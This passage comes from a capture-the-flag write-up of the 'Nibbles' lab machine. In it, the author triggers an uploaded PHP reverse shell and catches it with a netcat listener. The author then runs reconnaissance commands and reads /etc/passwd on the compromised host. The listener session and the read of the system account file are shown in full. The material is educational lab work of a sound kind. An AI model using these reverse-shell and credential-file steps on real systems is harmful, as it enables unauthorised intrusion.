 To trigger the PHP reverse shell I had to click on the file, so it would be loaded. After opening the file I went back to my netcat listener.

~~~
                                                                                                                    
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.25.62.
Ncat: Connection from 10.129.25.62:44722.
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:05:55 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
~~~

A connection has been established! Time to see who I am, what memberships I have (groups) and on what host I am working.
~~~
$ whoami;id;hostname;pwd
nibbler
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
Nibbles
/
~~~
It looks like I am nibbler with the uid=1001. So perhaps there is another user on the system as well. Therefor I decided to look into the /etc/passwd file.
~~~
$ cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
nibbler:x:1001:1001::/home/nibbler:
$ 
~~~